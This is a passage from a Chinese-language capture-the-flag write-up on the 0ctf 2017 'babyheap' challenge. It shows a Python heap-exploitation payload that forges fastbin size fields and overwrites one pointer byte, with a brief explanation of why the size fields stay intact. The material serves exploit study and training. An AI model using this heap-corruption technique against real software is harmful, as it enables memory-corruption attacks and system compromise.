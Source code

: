 ![img](0ctf_2017_babyheap/images/image-6.png)
(忽略版本...)

只用修改低一个字节即可 用fastbin版本的图
payload:
```py
payload += p64(0)*3 + p64(0x21) + p64(0)*3 + p64(0x21) + p8(0x80)
fill(0,payload)
```
注意 为什么要 `p64(0)*3+p64(0x21)`
![img](0ctf_2017_babyheap/images/image-8.png)
红色是修改内容的起始点 蓝色的size段要保持不变
